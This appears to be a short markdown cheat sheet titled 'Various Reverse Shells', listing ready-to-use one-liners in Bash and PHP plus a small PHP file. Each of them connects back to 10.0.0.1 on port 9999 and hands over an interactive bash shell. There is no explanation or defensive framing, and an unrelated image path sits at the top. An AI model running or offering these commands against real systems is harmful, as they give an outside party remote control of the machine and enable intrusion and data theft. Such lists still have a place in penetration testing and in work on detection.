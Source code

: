 # Various Reverse Shells

# Bash
```
bash -i >& /dev/tcp/10.0.0.1/9999 0>&1
```
####################

# PHP
```
php -r '$sock=fsockopen("10.0.0.1",9999);exec("bash -i <&3 >&3 2>&3");'
```
##

```
<?php 

$cmd = 'echo "bash -i >& /dev/tcp/10.0.0.1/9999 0>&1" | bash';
exec($cmd);

?>
```
####################
